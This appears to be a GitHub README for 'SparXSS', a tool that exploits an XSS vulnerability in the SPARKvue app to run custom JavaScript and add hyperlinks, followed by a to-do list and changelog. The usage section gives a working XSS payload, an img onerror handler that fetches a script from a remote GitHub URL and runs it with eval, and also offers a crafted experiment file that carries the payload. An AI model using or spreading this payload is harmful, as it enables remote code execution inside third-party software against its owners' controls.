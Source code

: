 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

Or Download The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App - Might not always be up to date

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
  (currently working, may be changed in the future- change the link from /sparxss.js to /Testing/test4.js to use)
- May add a tabbing feature to the javascript, but this is not a final decision as there is not too much of a point

## Changelog

10/27/2023
- Added a third button in the hyperlinks menu that lets you copy the text in the textbox, so you can keep adding links incase you either dont want to export the file, or want to keep adding links in the future<br>
  If you do hit the copy button, all you have to do is paste the stuff copied to your clipboard in the textbox when reopening the app
- Added cancel feature to the menu that you type the hyper link URL's in, so you don't have to when you click the button
- Might have found a way to save the textbox .value without manually clicking it, contrary to what I had previously thought you had to do

10/26/2023
- Found out you have to click the textbox to update it before exporting to make the links actually save
- Made the javascript box load with the script instead of everytime the button is clicked

10/25/2023
- Basic link saving functionality added
- The hyperlink button now accepts pressing enter to add a hyperlink

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far
